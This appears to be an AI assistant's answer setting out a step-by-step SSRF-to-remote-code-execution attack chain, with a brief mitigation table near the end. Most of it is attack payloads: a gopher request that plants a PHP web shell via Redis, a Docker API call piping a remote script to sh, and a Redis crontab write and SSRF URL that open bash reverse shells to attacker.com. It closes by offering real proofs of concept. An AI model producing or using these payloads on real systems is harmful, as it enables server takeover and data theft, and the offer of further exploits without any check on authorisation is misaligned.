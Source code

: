 
Here’s a practical **SSRF to RCE exploitation pipeline**, which outlines how an attacker might escalate a **Server-Side Request Forgery (SSRF)** vulnerability into **Remote Code Execution (RCE)** on a server:

---

## 🔥 SSRF to RCE Exploitation Pipeline

### 🎯 **1. Identify SSRF**

Look for places where the application makes server-side HTTP requests:

- URL preview (e.g., fetching metadata)
- File import from URL
- PDF/image rendering from URL
- Webhooks, SSO (OAuth), etc.

**PoC**:

```bash
curl -X POST -d 'url=http://127.0.0.1:80' https://target.com/fetch
```

---

### 🧠 **2. Determine SSRF Capabilities**

Test for:

- DNS resolution (internal IPs, metadata URLs)
- Header injection
- HTTP method tampering (GET/POST)
- Port scanning

**Test internal services:**

```bash
http://169.254.169.254/latest/meta-data/  ← AWS EC2
http://127.0.0.1:3306                    ← MySQL
http://localhost:8000                    ← Dev services
```

---

### ⚙️ **3. Port Scan / Service Detection (Internal Recon)**

Use SSRF to map internal services:

```bash
http://localhost:2375/ ← Docker socket
http://localhost:8080/ ← Admin panel
http://localhost:9000/ ← MinIO, Jenkins
```

---

### 🐳 **4. Target Internal Services**

Examples:

- **Docker socket** SSRF → mount malicious image → container escape
- **Gogs/GitLab/Jenkins** SSRF → access admin panel → script execution
- **Redis**: SSRF to write cronjobs or SSH keys
- **Gopher Protocol**: SSRF → Redis/MySQL/Postgres to send raw payload

**Gopher payload for Redis to RCE:**

```
gopher://127.0.0.1:6379/_*3
$3
SET
$9
foo.php
$27
<?php system($_GET['cmd']); ?>
```

---

### ☢️ **5. Exploit SSRF to RCE via...**

#### 📌 Option A: Internal Admin Panels

- Jenkins Script Console → Groovy RCE
- GitLab API → CI pipelines → shell

#### 📌 Option B: Docker Socket (if exposed)

```bash
POST /containers/create?name=hacker
{
  "Image": "alpine",
  "Cmd": ["sh", "-c", "curl yourserver.com|sh"]
}
```

#### 📌 Option C: Redis RCE (via crontab)

```redis
SET 1 "\n* * * * * /bin/bash -i >& /dev/tcp/attacker.com/4444 0>&1\n"
CONFIG SET dir /var/spool/cron/crontabs/
CONFIG SET dbfilename root
SAVE
```

#### 📌 Option D: SSRF to Local File Write (LFI or writable file paths)

- Upload Web Shell
- Inject malicious config (e.g., PHP-FPM, .htaccess)

---

### 🧪 **6. Gain Command Execution**

- Upload Web Shell or trigger reverse shell
- Set up listener:

```bash
nc -lvnp 4444
```

- Use SSRF to trigger:

```bash
http://127.0.0.1/admin?cmd=bash -i >& /dev/tcp/attacker.com/4444 0>&1
```

---

### 🛡️ Prevent SSRF to RCE

|Mitigation|Description|
|---|---|
|Input validation|Allow only whitelisted domains|
|No internal network access|Block `127.0.0.1`, `169.254.169.254`, etc|
|Metadata API restrictions|IAM roles & EC2 metadata v2|
|Docker hardening|Don’t expose Docker socket|
|Firewall rules|Prevent lateral/internal access from web apps|
|Logging|Detect outbound requests anomalies|

---

## 🧷 Summary Pipeline

```
[SSRF] → [Internal Recon] → [Service Access] → [Upload/Trigger Payload] → [RCE]
```

---

If you want I can give this as a PDF or provide real PoCs for Jenkins, Redis, Docker, or SSRF to Gopher attack. Let me know.